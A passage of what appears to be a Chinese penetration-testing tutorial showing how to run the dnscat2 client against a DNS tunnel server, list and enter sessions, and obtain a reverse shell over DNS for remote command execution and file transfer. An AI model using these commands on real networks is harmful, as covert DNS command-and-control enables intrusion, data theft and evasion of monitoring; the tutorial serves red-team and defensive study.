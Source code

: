 **客户端 (Linux 版本)** 执行以下命令，连接服务端

```
cd dnscat2/client
./dnscat --dns domain=test.hack.com --secret=root@123456
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e7dBIQzVhtLN8SMwgz6umKDojD6QxKKKwtt9icUmQu0Hxh8iaCOP7m8phVXdB8TPFjXa9Aicge7WBsA/640?wx_fmt=png)

### 执行命令

我们服务端这边也会显示 New window created：1 ，说明新建了一个 session

然后我们执行下面命令

```
sessions      #查看当前建立的session
windows       #查看当前建立的session，和sessions一样
session -i 1  #进入第一个session，和MSF一样
window  -i 1  #进入第一个session，和session -i 1一样
help          #查看命令帮助
    clear：清屏
    delay：修改远程响应延时
    exec ：执行远程机器上的指定程序，例如PowerShell或VBS
    shell：得到一个反弹的shell
    download、upload：上传、下载文件，速度较慢，适合小文件
    suspend：返回上一层，相当于使用快捷键 Ctrl+Z
    listen：类似于SSH隧道的-L参数(本地转发)
    ping：用于确认目标机器是否在线，若返回pong，说明目标机器在线
    shutdown：切断当前会话
    quit：退出dnscat2控制台
    kill id：切断通道
    set：设置值，例如设置 security=open
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e7dBIQzVhtLN8SMwgz6umKjyZRQYwaSnPxGamorrGLP12VtiaDe27zyuw1DJsO7P5oJdTE8afdR7Q/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e7dBIQzVhtLN8SMwgz6umKC46HkicwXgxRgNxqicnaWlr7WrnkrwZWzM5O18U8a6StpD2hQFpOgm2g/640?wx_fmt=png)

我们执行 shell，然后会反弹一个 shell 过来。接着执行 suspend 返回上一层，sessions 查看，可以看到现在有两个 session 了。session -i 2 进入反弹回来的 shell，我们就可以执行 CMD 命令了

```
shell           #得到一个反弹的shell
suspend         #返回上一层
session -i  2   #进入反弹过来的shell
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e7dBIQzVhtLN8SMwgz6umKbaht3ibCuNbGOEHiaauVPFXjaO5m8Q1iaZvKoWF8Ur6EiaYRepSp0fdImg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e7dBIQzVhtLN8SMwgz6umKVNqaicoeozpGLLHBlELmDhcoga8tDdpxcsEBCVjWuB7ibwpzEvicgFSdw/640?wx_fmt=png)

**相关链接：**

[内网渗透（二十一） | 内网转发及隐蔽隧道 ：应用层隧道技术之使用 DNS 搭建隧道 (iodine)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247499072&idx=1&sn=2eb899190b192d81209c02f774b9fdd6&chksm=fc7bf99dcb0c708bfdb3bdeacae6d145add21e3de06c2d8a0c9c0c933c5eb5e4109ef25e665a&scene=21#wechat_redirect)  
